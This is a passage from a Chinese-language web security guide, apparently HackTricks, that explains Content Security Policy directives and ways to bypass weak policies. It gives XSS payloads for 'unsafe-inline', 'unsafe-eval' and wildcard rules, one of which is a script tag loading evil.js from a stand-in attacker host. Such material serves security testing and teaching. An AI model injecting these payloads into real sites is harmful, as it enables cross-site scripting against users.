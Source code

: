 <details><summary>重用nonce加载脚本</summary></details>

* `'sha256-<hash>'`: 白名单特定 sha256 哈希的脚本。
* `'strict-dynamic'`: 如果通过 nonce 或哈希被列入白名单，则允许从任何来源加载脚本。
* `'host'`: 指定特定主机，例如 `example.com`。
* `https:`: 限制 URL 仅使用 HTTPS。
* `blob:`: 允许从 Blob URL 加载资源（例如，通过 JavaScript 创建的 Blob URL）。
* `filesystem:`: 允许从文件系统加载资源。
* `'report-sample'`: 在违规报告中包含违规代码的示例（对调试有用）。
* `'strict-origin'`: 类似于 'self'，但确保源的协议安全级别与文档匹配（只有安全源可以从安全源加载资源）。
* `'strict-origin-when-cross-origin'`: 在进行同源请求时发送完整 URL，但在跨源请求时仅发送源。
* `'unsafe-allow-redirects'`: 允许加载会立即重定向到另一个资源的资源。不推荐使用，因为这会削弱安全性。

## 不安全的 CSP 规则

### 'unsafe-inline'
```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-inline';
```
工作有效载荷: `"/><script>alert(1);</script>`

#### self + 'unsafe-inline' 通过 Iframes

{% content-ref url="csp-bypass-self-+-unsafe-inline-with-iframes.md" %}
[csp-bypass-self-+-unsafe-inline-with-iframes.md](csp-bypass-self-+-unsafe-inline-with-iframes.md)
{% endcontent-ref %}

### 'unsafe-eval'

{% hint style="danger" %}
这不起作用，更多信息请 [**查看此处**](https://github.com/HackTricks-wiki/hacktricks/issues/653).
{% endhint %}
```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-eval';
```
工作有效载荷：
```html
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```
### strict-dynamic

如果你能以某种方式使一个**允许的 JS 代码创建一个新的脚本标签**在 DOM 中，并且是由允许的脚本创建的，那么**新的脚本标签将被允许执行**。

### Wildcard (\*)
```yaml
Content-Security-Policy: script-src 'self' https://google.com https: data *;
```
工作有效载荷：
```markup
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
```
### 缺少 object-src 和 default-src
